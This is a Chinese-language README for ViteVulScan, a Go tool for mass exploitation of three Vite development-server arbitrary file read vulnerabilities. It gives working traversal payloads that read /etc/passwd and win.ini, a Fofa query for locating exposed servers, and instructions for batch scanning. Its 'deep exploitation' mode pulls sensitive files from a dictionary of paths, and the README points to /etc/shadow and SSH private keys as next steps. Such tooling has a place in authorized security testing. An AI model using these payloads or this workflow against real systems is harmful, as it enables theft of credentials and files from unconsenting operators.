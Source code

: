 # ViteVulScan

## 漏洞介绍
本项目涉及3个漏洞：CVE-2025-30208/CVE-2025-31125/CVE-2025-31486，都是关于Vite开发服务器任意文件读取漏洞，这三个漏洞覆盖面大且利用简单不受限制。

### 漏洞POC：
CVE-2025-30208：
>Windows: /@fs/C://Windows/win.ini?import&raw??
> 
> Linux: /@fs/etc/passwd?import&raw??

CVE-2025-31125
> Windows: /@fs/C://windows/win.ini?import&?inline=1.wasm?init
>
> Linux: /@fs/etc/passwd?import&?inline=1.wasm?init

CVE-2025-31486
> Windows: /@fs/x/x/x/vite-project/?/../../../../../C://windows/win.ini?import&?inline=1.wasm?init
> 
> Linux: /@fs/x/x/x/vite-project/?/../../../../../etc/passwd?import&?inline=1.wasm?init

路径中的/@fs可以不需要携带。

### Fofa测绘语法：
> body="/@vite/client"

## 工具使用介绍
### 工具特点
1. 可以联动fofa进行批量利用
2. 会解析存在漏洞的精确路径并进行深度利用
3. 充分利用 go 的并发功能，可以实现在短时间内对大量资产进行快速的批量探测

### 编译说明
go版本：`go 1.20以上版本`

进入到项目根目录

先同步一下依赖
> go mod tidy

然后编译项目
>  go build -o ViteVulScan -ldflags="-s -w" -trimpath .

` ./ViteVulScan`即可运行该脚本。

当然你也可以直接在项目根目录下运行该项目:
> go run . 

### 配置
脚本支持联动fofa搜索资产然后进行批量检测。

要想使用fofa，要确保app.ini文件和编译后的二进制文件在同一目录，并且需要修改config目录下的app.ini文件，其中的fofakey字段填上自己的fofakey，num是自己估摸要检测的大概资产数量。

如果你有针对该漏洞更好的fofa测绘语法，可以自行修改fofaQuery字段。

### 命令行参数介绍



> Usage of ./ViteVulScan:

| 参数                      |                                        描述                                        |
|-------------------------|:--------------------------------------------------------------------------------:|
| -cve                    | 使用哪个cve漏洞进行检测。支持CVE_2025_30208/CVE_2025_31125/CVE_2025_31486。默认使用CVE_2025_30208。 |
| -fofa                   |                        指定该参数后，会联动fofa测绘资产，对得到的目标资产进行批量检测                         |
| -u    \|    -url        |                                 指定单个url目标，对其进行检测                                 |
| -f     \|     -filename |                               指定一个文件名，批量检测其中的url地址                               |
| -e                      | 指定该参数后，会对检测存在漏洞的资产进行深度利用，读取各种可能存在的敏感文件并保存在本地。(请谨慎使用该功能，最好是对单个目标检测，也就是使用-u时加上该参数) |

### 说明

1. 批量检测一个文件中的所有目标URL，确保文件中每行一个URL即可，URL可以是包含http的完整URL，也可以是一个域名或者ip，比如：
   ````text
     http://example1.com 
     example2.com
     127.0.0.1
   ````
2. 当指定-fofa和-f参数进行检测后，会自动将存在漏洞的资产保存到当前文件下，文件名格式为"当下时间戳.csv"。 
3. 同时支持对linux和windows平台进行利用，利用的字典分别为dict目录下的linux_sensitive_path.txt和windows_sensitive_path.txt，如果有更多敏感路径，可以自己在相应的字典中进行添加。

### 示例

__示例 1：__联动 fofa 进行批量检测：

./ViteVulScan -fofa

![image-20250410145741383](https://cdn.jsdelivr.net/gh/jackieya/imgHosting/pic/20250410145749802.png)

扫描结束后，会在 result 目录下看到保存利用成功的 url 的csv 文件，以时间戳为名：

![image-20250410151756704](https://cdn.jsdelivr.net/gh/jackieya/imgHosting/pic/20250410151758397.png)

__示例 2：__针对存在漏洞的 url 进行深度利用：

./ViteVulScan -u example.com -e

![image-20250410150341952](https://cdn.jsdelivr.net/gh/jackieya/imgHosting/pic/20250410150344090.png)

如果显示“利用成功”，可以查看result 目录，会有以扫描的 url 为名的目录，扫描出来的敏感文件内容都被解析成原本文件格式后保存到相应路径中，效果如下所示：

![image-20250410150836985](https://cdn.jsdelivr.net/gh/jackieya/imgHosting/pic/20250410150838982.png)

以保存的 result/localhost:5173/etc/passwd 中内容为例，可以看到敏感信息的完整内容被保存下来，便于后续的利用（如果能读取到 /etc/shadow 或者是服务器的ssh 私钥，就可以进一步利用了）。

![image-20250410151044619](https://cdn.jsdelivr.net/gh/jackieya/imgHosting/pic/20250410151045981.png)


# 免责声明
本工具仅用于安全研究和授权测试，请勿用于非法用途。使用本工具进行任何未经授权的测试所造成的后果由使用者自行承担。

# 更新
## 3月29日首次发布：
- 实现fofa进行资产搜集功能
- 实现用CVE_2025_30208漏洞进行批量验证
- 添加命令行解析功能
## 4月1日：
- 实现深度利用功能
## 4月2日：
- 添加对刚出来的CVE_2025_31125漏洞的验证。
## 4月9日
- 修改了 fofa 模块的错误。
- 添加了并发功能，支持快速批量探测资产是否存在漏洞。
- 添加了对 CVE_2025_31486的验证
- 修改了项目文件结构
